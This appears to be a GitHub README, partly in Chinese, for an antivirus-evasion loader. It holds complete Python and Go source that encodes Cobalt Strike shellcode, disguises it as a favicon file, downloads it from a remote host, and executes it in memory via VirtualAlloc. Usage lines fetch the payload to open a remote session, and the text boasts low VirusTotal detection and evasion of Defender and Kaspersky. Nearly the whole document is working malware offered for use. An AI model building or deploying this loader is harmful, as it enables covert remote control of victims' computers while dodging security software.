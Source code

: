 # 0x00 generate cobaltstrike shellcode

`Attacks =>> Packages =>> Payload generate =>> Output =>> Raw =>> payload.bin`

# 0x01 replace base64 shellcode

```
import base64
import random
import numpy
import sys

# print len(sys.argv)
# print sys.argv[0]
# print sys.argv[1]

if len(sys.argv) != 2:
    sys.exit("[+] useage: python %s [File: payload.bin]"%sys.argv[0])
else:
    shellcode =  open("payload.bin","rb").read()
    b64shellcode = base64.b64encode(shellcode).decode()
    b64shellcode = b64shellcode.replace("A","#").replace("H","!").replace("1","@").replace("T",")")
    print("[+] b64shellcode= \n" + b64shellcode)
    f = open("favicon.txt","wb")
    f.write(b64shellcode)
    f.close()
```

# 0x02 comiple mian.go


```
package main


import (
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "net/http"
    "os"
    "strings"
    "syscall"
    "unsafe"
    "flag"
)
var (
    kernel32     = syscall.NewLazyDLL("kernel32.dll")
    VirtualAlloc = kernel32.NewProc("VirtualAlloc")
    RtlMoveMemory = kernel32.NewProc("RtlMoveMemory")
)
func runUrl(url string) {
    resp, _ := http.Get(url)
    body, _ := ioutil.ReadAll(resp.Body)
    resp.Body.Close()


    str1 :=strings.Replace(string(body), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
    sDec,_ := base64.StdEncoding.DecodeString(str4)
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}


func ReadFile(filepath string){
    f, err := os.Open(filepath)
    if err != nil {
        fmt.Println("read file fail", err)
    }
    defer f.Close()
 
    fd, err := ioutil.ReadAll(f)
    if err != nil {
        fmt.Println("read to fd fail", err)
    }

    str1 :=strings.Replace(string(fd), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )

    sDec,_ := base64.StdEncoding.DecodeString(str4) //base64解密
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}

func main() {

    var url string
    var code string

    flag.StringVar(&url, "u", "", "url")
    flag.StringVar(&code, "s", "", "shellcode")
    flag.Parse()

    if(len(os.Args) != 3){
        // fmt.Println("Usage:xxx.exe -u http://x.x.x.x/code.txt")
        // fmt.Println("Or xxx.exe -s base64_encode_shellcode")
        os.Exit(0)
    } else if url != "" {
        runUrl(url)
    }else{
        ReadFile(code)
    }
}

```

# 0x03 get session

**shell.exe -u http://172.16.242.1/favicon.ico**

**shell.exe -s payload.txt**

# bypassAV
条件触发式远控 VT 6/70 免杀国内杀软及defender、卡巴斯基等主流杀软
## 原理
https://pureqh.top/?p=5412
## use
将shellcode填至go_shellcode_encode.py生成混淆后的base64 payload<br>
然后将生成的payload填至main.go build("b64shellcode")<br>
将main.go中的url替换为你vbs的某个网页或文本（局域网网页同样可以，但是需要程序可以正常使用时此网页需要可以访问）<br>
编译：go build -ldflags="-w -s -H=windowsgui"<br>
